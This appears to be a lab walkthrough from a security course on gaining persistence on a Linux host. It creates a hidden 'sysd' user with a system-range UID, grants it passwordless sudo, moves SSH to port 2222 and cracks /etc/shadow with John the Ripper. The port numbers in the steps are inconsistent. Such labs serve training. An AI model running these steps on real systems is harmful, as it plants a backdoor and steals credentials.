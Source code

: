 # Advanced Bash - Owning the System

## Step 1: Shadow People
- 1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
  - sudo useradd --system --no-create-home sysd

![](/Linux/Images/AB-1-create-user.png)

- 2. Give your secret user a password:
  - Sudo passwd sysd

![](/Linux/Images/AB-2-password.png)

- 3. Give your secret user a system UID < 1000
    - sudo usermod -u 997 sysd

![](/Linux/Images/AB-3-group.png)

- 4. Give your secret user the same GID:
    - sudo groupmod -g 997 sysd

![](/Linux/Images/AB-4-gid.png)

- 5. Give your secret user full sudo access without the need for a password:
    - sudo visudo

![](/Linux/Images/AB-5-visudo.png)

- 6. Test that sudo access works without your password:
    - su sysd
    - Passw0rd

![](/Linux/Images/AB-6-test-access.png)

## Step 2: Smooth Sailing
- 1. Edit the sshd_config file:
  - sudo nano /etc/ssh/sshd_config

![](/Linux/Images/AB-2.1-nano-sshd.png)

![](/Linux/Images/AB-2.1-nano.png)

## Step 3: Testing Your Configuration Update
- 1. Restart the SSH service:
  - systemctl restart ssh

![](/Linux/Images/AB-3.1-restart.png)

- 2. Exit the root account
- 3. SSH to the target machine using your sysd account and port 2222:
  - ssh sysd@192.168.1.23 -p 2222

![](/Linux/Images/AB-3.3-port222.png)

  - 4. Use sudo to switch to the root user:
    - sudo su root

![](/Linux/Images/AB-3.4-su-root.png)

## Step 4: Crack All the Passwords
- 1. SSH back to the system using your sysd account and port 2222:
  - ssh sysd@192.168.1.23 -p 22

![](/Linux/Images/AB-4.1-ssh-p222.png)

- 2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
  - sudo su root
  - john /etc/shadow

![](/Linux/Images/AB-4.2-john.png)
